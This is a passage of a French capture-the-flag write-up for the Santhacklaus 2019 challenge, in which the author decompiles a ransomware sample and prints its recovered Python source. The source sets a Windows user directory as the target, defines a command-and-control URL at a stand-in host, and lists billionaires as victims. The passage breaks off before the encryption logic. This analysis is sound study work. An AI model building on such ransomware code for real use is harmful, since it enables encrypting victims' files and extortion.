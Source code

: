 # [Santhacklaus 2019] - Jacques ! Au secours !


> One of our VIP clients, who wishes to remain anonymous, has apparently been hacked and all their important documents are now corrupted.
> Can you help us recover the files? We found a strange piece of software that might have caused all of this.
> MD5 of the file : ccaab91b06fc9a77f3b98d2b9164df8e
> Fichiers: http://cloud.id-iot.team/s/e2ZgLdHKwMoFQ8x

## Etat des lieux

Cette épreuve commence donc avec une archive zip contenant plusieurs fichiers:

![](/lib/images/writeups/2019_santhacklaus/jacqueschirac/upload_b0b0fa8588a7c488222e5715d5e4fc93.png)

Le fichier "READ_THIS.txt" contient un message charmant:

> We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com

Le fichier "virus.cpython-37.pyc" rappelle un fichier de python compilé. Malheureusement [pycdc](https://github.com/zrax/pycdc) ne décompile pas correctement le "virus". Heureusement qu'il existe des outils en ligne pour tout et n'importe quoi:

> https://python-decompiler.com/

Le résultat est vraiment mieux, après corrections de quelques petites choses, on obtient le code suivant:

```python
#!/usr/bin/python3
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, getpass, os, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
TARGETS = [b'Scott Farquhar', b'Lei Jun', b'Reid Hoffman', b'Zhou Qunfei', b'Jeff Bezos', b'Shiv Nadar', b'Simon Xie', b'Ma Huateng', b'Ralph Dommermuth', b'Barry Lam', b'Nathan Blecharczyk', b'Judy Faulkner', b'William Ding', b'Scott Cook', b'Gordon Moore', b'Marc Benioff', b'Michael Dell', b'Yusaku Maezawa', b'Yuri Milner', b'Bobby Murphy', b'Larry Page', b'Henry Samueli', b'Jack Ma', b'Jen-Hsun Huang', b'Jay Y. Lee', b'Joseph Tsai', b'Dietmar Hopp', b'Henry Nicholas, III.', b'Dustin Moskovitz', b'Mike Cannon-Brookes', b'Robert Miller', b'Bill Gates', b'Garrett Camp', b'Lin Xiucheng', b'Gil Shwed', b'Sergey Brin', b'Rishi Shah', b'Denise Coates', b'Zhang Fan', b'Michael Moritz', b'Robin Li', b'Andreas von Bechtolsheim', b'Brian Acton', b'Sean Parker', b'John Doerr', b'David Cheriton', b'Brian Chesky', b'Wang Laisheng', b'Jan Koum', b'Jack Sheerack', b'Terry Gou', b'Adam Neumann', b'James Goodnight', b'Larry Ellison', b'Wang Laichun', b'Masayoshi Son', b'Min Kao', b'Hiroshi Mikitani', b'Lee Kun-Hee', b'David Sun', b'Mark Scheinberg', b'Yeung Kin-man', b'John Tu', b'Teddy Sagi', b'Frank Wang', b'Robert Pera', b'Eric Schmidt', b'Wang Xing', b'Evan Spiegel', b'Travis Kalanick', b'Steve Ballmer', b'Mark Zuckerberg', b'Jason Chang', b'Lam Wai Ying', b'Romesh T. Wadhwani', b'Liu Qiangdong', b'Jim Breyer', b'Zhang Zhidong', b'Pierre Omidyar', b'Elon Musk', b'David Filo', b'Joe Gebbia', b'Jiang Bin', b'Pan Zhengmin', b'Douglas Leone', b'Hasso Plattner', b'Paul Allen', b'Meg Whitman', b'Azim Premji', b'Fu Liquan', b'Jeff Rothschild', b'John Sall', b'Kim Jung-Ju', b'David Duffield', b'Gabe Newell', b'Scott Lin', b'Eduardo Saverin', b'Jeffrey Skoll', b'Thomas Siebel', b'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()


def xorbytes(a, b):
    assert len(a) == len(b)
    res = b''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

```